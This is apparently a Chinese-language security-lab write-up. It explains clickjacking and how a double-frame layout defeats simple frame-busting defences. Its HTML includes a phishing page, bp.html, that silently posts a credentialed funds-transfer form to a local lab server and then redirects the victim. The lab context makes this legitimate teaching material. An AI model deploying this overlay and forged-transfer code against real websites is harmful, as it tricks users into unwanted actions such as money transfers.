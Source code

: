 ```html
            top: 10px;
            left: 10px;
            z-index: 1;
            width: 120px;
        }
    </style>     
</head>
<body> 
     <iframe src="http://www.baidu.com" scrolling="no"></iframe>
     <button>Click Here!</button>
</body>
</html>
```

> 注意这个 `<iframe src="http://www.baidu.com" scrolling="no"></iframe>` 其实是在当前 [BOM](http://www.dreamdu.com/javascript/what_is_bom/)中插入了一个新的窗体window，而在一个 BOM 中，各个window之间的地位是平级的，区分它们的视觉参数只有z-index。当两个window产生覆盖时，这两个window之间就有了top和parent的父子关系，即frame覆盖的问题。

> 攻击者通过控制iframe的长、宽以及调整top、left的位置，可以把iframe页面内的任意部分覆盖到任何地方。
> 同时设置iframe的position为absolute，并将z-index的值设置为最大，以达到让iframe处于页面的最上层。最后，通过设置opacity来控制iframe页面的透明度，值0是完全不可见。
> 这样，就完成了一次点击劫持攻击。

> 之前介绍的普通的ClickJacking防御代码中只是简单的对parent.location进行赋值来进行frame覆盖的纠正。
> 这在当前页面只被攻击者覆盖了一个frame的情况能起到很好的防御作用。然后，如果攻击者在当前页面上覆盖了两个的frame(Double Frame)，情况就不一样了。

Double Frame 的情况下，访问 parent.location 就违反了主流浏览器的安全规则：**descendant frame navigation policy**。安全规则限制了网页的重定位，因此可以绕过简单的 frame busting 防护。

 ### 攻击原理

利用 Clickjacking 进行攻击，利用 Double Frame 绕过 frame busting 防护。

在 bp.html 中，伪造一个钓鱼页面。用 iframe 包装 bp2.html。

在 bp2.html 中，用 iframe 包装 `http://localhost:3000/super_secure_transfer`页面，达到 Double Frame 的效果。

![image-20220506001751204](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220506001751204.png)

`bp.html`:

```html
<!DOCTYPE html>
<html>
    <head>
        <script>
            window.addEventListener("load", function() {
                function redirect() {
                    window.location = 'http://cs155.stanford.edu/'
                }
                function sendData() {
                    var xhr = new XMLHttpRequest();
                    var fd = new FormData(form);
                    xhr.onload = xhr.onerror = redirect();
                    xhr.withCredentials=true;
                    xhr.open("post", "http://localhost:3000/super_secure_post_transfer/");
                    xhr.send(fd);
                }
                var form = document.getElementById("myForm");
                form.addEventListener("submit", function (event) {
                    event.preventDefault();
                    sendData();
                });
            })
        </script>
    </head>
    <body>
```